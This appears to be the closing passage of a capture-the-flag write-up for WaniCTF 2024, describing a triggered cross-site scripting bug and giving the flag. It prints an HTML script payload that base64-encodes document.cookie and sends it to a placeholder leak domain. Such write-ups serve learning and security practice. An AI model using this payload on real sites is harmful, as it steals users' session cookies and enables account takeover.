 ![image](/assets/img/wanictf24/alert_payload.png)

![image](/assets/img/wanictf24/xss.png)

The XSS finally triggers ! All is left is to exfiltrate the cookie. We can use the payload bellow :

```html
<script>location="https://<domain>.com/leak?flag=".concat(btoa(document.cookie))</script>
```

**FLAG{n0scr1p4_c4n_be_d4nger0us}**

<i>Solved by <span class="goodwill">Raza</span></i>